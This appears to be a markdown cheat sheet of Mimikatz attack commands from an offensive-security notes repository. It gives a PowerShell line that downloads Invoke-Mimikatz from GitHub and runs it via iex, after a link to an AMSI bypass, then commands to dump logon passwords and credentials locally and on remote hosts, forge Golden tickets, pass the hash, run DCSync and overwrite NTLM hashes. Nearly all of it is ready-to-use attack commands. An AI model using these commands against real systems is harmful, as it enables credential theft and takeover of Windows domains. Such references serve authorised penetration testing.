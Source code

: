 # Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## Invoke-Mimikatz custom commands
```powershell
Invoke-Mimikatz -Command '"log mimi.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```

# Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# Make a Golden ticket
```console
mimikatz "kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>" "exit"
```

SID can be found by [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
```console
whoami /all
```

# Path-the-hash
```console

mimikatz "privilege::debug" "sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe" "exit"
```

# dcsync
```console
mimikatz  "log" "lsadump::dcsync /domain:<domain>.local /user:<domain>\<user>" "exit"
```

# changentlm

> **Note**
> While lsadump::setntlm seems to work multiple times for the same user account, this is not the case for lsadump::changentlm ([link](https://github.com/gentilkiwi/mimikatz/issues/201#issuecomment-483788010)).
 
## Password string 
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newpassword:<password>
```
## NTLM
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newntlm:<rc4>
```

# setntlm
```console
lsadump::setntlm /server:<dc>.<domain>.local /user:<user> /ntlm:<ntlm>
```


